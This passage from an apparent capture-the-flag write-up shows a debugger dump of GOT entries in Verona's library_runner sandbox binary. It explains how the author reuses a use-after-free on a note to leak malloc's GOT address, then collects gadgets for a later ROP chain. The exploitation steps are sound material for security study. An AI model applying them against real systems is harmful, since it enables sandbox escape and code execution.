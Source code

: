 ```txt {25,36}
75:03a8│  0x7f093d51f3a8 (sandbox::ExportedFunctionBase*& std::__get_helper<0ul, sandbox::ExportedFunctionBase*, std::default_delete<sandbox::ExportedFunctionBase> >(std::_Tuple_impl<0ul, sandbox::ExportedFunctionBase*, std::default_delete<sandbox::ExportedFunctionBase> >&)@got.plt) —▸ 0x7f093d5188ae (sandbox::ExportedFunctionBase*& std::__get_helper<0ul, sandbox::ExportedFunctionBase*, std::default_delete<sandbox::ExportedFunctionBase> >(std::_Tuple_impl<0ul, sandbox::ExportedFunctionBase*, std::default_delete<sandbox::ExportedFunctionBase> >&)) ◂— endbr64
76:03b0│  0x7f093d51f3b0 (std::vector<std::unique_ptr<sandbox::ExportedFunctionBase, std::default_delete<sandbox::ExportedFunctionBase> >, std::allocator<std::unique_ptr<sandbox::ExportedFunctionBase, std::default_delete<sandbox::ExportedFunctionBase> > > >::at(unsigned long)@got.plt) —▸ 0x7f093d51724e (std::vector<std::unique_ptr<sandbox::ExportedFunctionBase, std::default_delete<sandbox::ExportedFunctionBase> >, std::allocator<std::unique_ptr<sandbox::ExportedFunctionBase, std::default_delete<sandbox::ExportedFunctionBase> > > >::at(unsigned long)) ◂— endbr64
77:03b8│  0x7f093d51f3b8 (void std::__relocate_object_a<std::unique_ptr<sandbox::ExportedFunctionBase, std::default_delete<sandbox::ExportedFunctionBase> >, std::unique_ptr<sandbox::ExportedFunctionBase, std::default_delete<sandbox::ExportedFunctionBase> >, std::allocator<std::unique_ptr<sandbox::ExportedFunctionBase, std::default_delete<sandbox::ExportedFunctionBase> > > >(std::unique_ptr<sandbox::ExportedFunctionBase, std::default_delete<sandbox::ExportedFunctionBase> >*, std::unique_ptr<sandbox::ExportedFunctionBase, std::default_delete<sandbox::ExportedFunctionBase> >*, std::allocator<std::unique_ptr<sandbox::ExportedFunctionBase, std::default_delete<sandbox::ExportedFunctionBase> > >&)@got.plt) —▸ 0x7f093d5187fa (void std::__relocate_object_a<std::unique_ptr<sandbox::ExportedFunctionBase, std::default_delete<sandbox::ExportedFunctionBase> >, std::unique_ptr<sandbox::ExportedFunctionBase, std::default_delete<sandbox::ExportedFunctionBase> >, std::allocator<std::unique_ptr<sandbox::ExportedFunctionBase, std::default_delete<sandbox::ExportedFunctionBase> > > >(std::unique_ptr<sandbox::ExportedFunctionBase, std::default_delete<sandbox::ExportedFunctionBase> >*, std::unique_ptr<sandbox::ExportedFunctionBase, std::default_delete<sandbox::ExportedFunctionBase> >*, std::allocator<std::unique_ptr<sandbox::ExportedFunctionBase, std::default_delete<sandbox::ExportedFunctionBase> > >&)) ◂— endbr64
78:03c0│  0x7f093d51f3c0 (std::_Tuple_impl<1ul, std::default_delete<sandbox::ExportedFunctionBase> >::_Tuple_impl()@got.plt) —▸ 0x7f093d518874 (std::_Tuple_impl<1ul, std::default_delete<sandbox::ExportedFunctionBase> >::_Tuple_impl()) ◂— endbr64
79:03c8│  0x7f093d51f3c8 (std::__uniq_ptr_impl<sandbox::ExportedFunctionBase, std::default_delete<sandbox::ExportedFunctionBase> >::__uniq_ptr_impl(sandbox::ExportedFunctionBase*)@got.plt) —▸ 0x7f093d5183cc (std::__uniq_ptr_impl<sandbox::ExportedFunctionBase, std::default_delete<sandbox::ExportedFunctionBase> >::__uniq_ptr_impl(sandbox::ExportedFunctionBase*)) ◂— endbr64
7a:03d0│  0x7f093d51f3d0 (malloc@got[plt]) —▸ 0x560c27bc586f (malloc) ◂— endbr64
7b:03d8│  0x7f093d51f3d8 (std::_Tuple_impl<0ul, sandbox::platform::SharedMemoryMapPOSIX<sandbox::platform::detail::SharedMemoryObjectMemFD>*, std::default_delete<sandbox::platform::SharedMemoryMapPOSIX<sandbox::platform::detail::SharedMemoryObjectMemFD> > >::_M_head(std::_Tuple_impl<0ul, sandbox::platform::SharedMemoryMapPOSIX<sandbox::platform::detail::SharedMemoryObjectMemFD>*, std::default_delete<sandbox::platform::SharedMemoryMapPOSIX<sandbox::platform::detail::SharedMemoryObjectMemFD> > >&)@got.plt) —▸ 0x7f093d5157b0 ◂— endbr64
7c:03e0│  0x7f093d51f3e0 (std::_Tuple_impl<0ul, sandbox::ExportedFunctionBase*, std::default_delete<sandbox::ExportedFunctionBase> >::_Tuple_impl()@got.plt) —▸ 0x7f093d518792 (std::_Tuple_impl<0ul, sandbox::ExportedFunctionBase*, std::default_delete<sandbox::ExportedFunctionBase> >::_Tuple_impl()) ◂— endbr64
7d:03e8│  0x7f093d51f3e8 (unsigned long const& std::max<unsigned long>(unsigned long const&, unsigned long const&)@got.plt) —▸ 0x7f093d5170cf (unsigned long const& std::max<unsigned long>(unsigned long const&, unsigned long const&)) ◂— endbr64
```

If we take a look, these addresses actually belong to `library_runner` - the
binary provided by Verona that acts as the child process to execute sandboxed
calls within the sandbox context. Not that leaking the libc is entirely useless,
but I chose to leak `library_runner` instead, because being part of Verona's
codebase, it should have quite a few interesting and useful gadgets, for our ROP
chain later on, that regular libc wouldn't have. We can leak it by simply
re-using our UAF over `note[0]{:cpp}`, pointing `*content{:cpp}` to
`malloc@got[plt]` and reading the note.
